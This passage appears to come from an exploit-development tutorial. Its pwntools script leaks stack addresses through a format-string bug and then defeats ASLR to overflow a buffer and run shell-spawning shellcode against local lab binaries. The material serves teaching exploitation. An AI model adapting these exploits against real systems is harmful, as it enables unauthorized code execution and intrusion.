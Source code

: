 
### ASLR and Information Leaks

```python
#!/usr/bin/env python3
from pwn import *

def leak_stack_address():
    """Use format string to leak stack addresses"""
    p = process('./format_vuln')
    
    # Leak stack values using format string
    payload = b'%lx.' * 20  # Leak 20 stack values
    p.sendline(payload)
    
    response = p.recvline()
    leaks = response.split(b'.')
    
    for i, leak in enumerate(leaks):
        try:
            addr = int(leak, 16)
            if 0x7fff00000000 <= addr <= 0x7fffffffffff:  # Stack range
                print(f"Stack address {i}: 0x{addr:016x}")
        except:
            continue
    
    p.close()

def defeat_aslr_with_leak():
    """Combine information leak with buffer overflow"""
    
    # Phase 1: Leak addresses
    p = process('./vuln_with_leak')
    
    # Trigger information leak
    p.sendline(b'1')  # Menu option to leak
    leak = p.recvline()
    
    # Parse leaked address
    stack_leak = int(leak.split()[-1], 16)
    buffer_addr = stack_leak - 0x100  # Calculate buffer address
    
    print(f"Leaked stack: 0x{stack_leak:016x}")
    print(f"Buffer at: 0x{buffer_addr:016x}")
    
    # Phase 2: Exploit with known address
    p.sendline(b'2')  # Menu option for overflow
    
    shellcode = asm(shellcraft.sh())
    payload = shellcode.ljust(72, b'A')
    payload += p64(buffer_addr)  # Return to shellcode
    
    p.sendline(payload)
    p.interactive()
```
